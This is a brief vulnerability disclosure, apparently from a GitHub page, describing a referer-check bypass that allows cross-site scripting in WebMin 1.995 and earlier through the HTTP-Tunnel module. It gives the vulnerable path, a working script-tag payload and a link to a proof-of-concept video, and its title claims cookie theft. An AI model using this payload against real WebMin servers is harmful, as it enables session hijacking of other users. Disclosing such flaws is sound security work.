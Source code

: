 WebMin 1.995 & Below referers bypass leads to XSS and Stealing Cookies of other Users Without Referers Detecting

*important : the user with HTTP-Tunnel module permission can change the tunnel configuration (module config)

URL : https://example.com/tunnel/link.cgi/

tested payloads : "https://example.com/tunnel/link.cgi/<script>alert()</script>" [working]

POC VIDEO on YOUTUBE : https://youtu.be/i5MieKoY64Q
 

